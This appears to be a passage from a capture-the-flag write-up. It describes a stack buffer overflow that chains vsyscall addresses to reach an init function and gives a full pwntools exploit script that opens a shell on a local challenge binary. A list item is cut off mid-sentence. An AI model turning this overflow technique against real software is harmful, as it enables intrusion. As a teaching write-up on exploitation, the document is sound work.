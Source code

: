 How we will reach te address of `init` is we will overwrite the space inbetween the return address and the `init` function with `0xffffffffff600000` repeated over and over, so it will just continually return untill we reach the address we want. So our overflow will consist of `152` bytes to reach the return address, than have `0xffffffffff600000` repeated 23 times untill we reach `init`. Then when it prompts us for another string in `target_passFunction` we will just input `8` null bytes. To sum it all up:

```
0:	Send User command, followed by a valid file in the db directory
1:	Send the pass command
2:	Send 152 bytes of input (offset to return address), followed by 
```

## Exploit

When we put it all together:

```
#This exploit is based off of: https://github.com/Caesurus/CTF_Writeups/tree/master/2017-GoogleCTF_Quals/wiki

#First import pwntools
from pwn import *

#Establish the target
target = process('./challenge')
#gdb.attach(target)

#Specify the user command and correct file, to specify the file contents for the PASS function 
target.sendline('USER')
target.sendline('1MB@tMaN')

#Send the PASS command to enter the PASS function
target.sendline('PASS')

#Construct the payload to overflow the buffer and reach the return address, and 0xffffffffff600000 vsyscall to reach the INIT function
payload = "0"*152 + p64(0xffffffffff600000)*23

#Send the payload
target.sendline(payload)

#Send 8 null bytes to pass the two remaining checks to the system function
finish = "\x00"*8

#Send the last 8 bytes
target.sendline(finish)

#Drop to an interactive shell to get the flag
target.interactive()
```

When we run it:
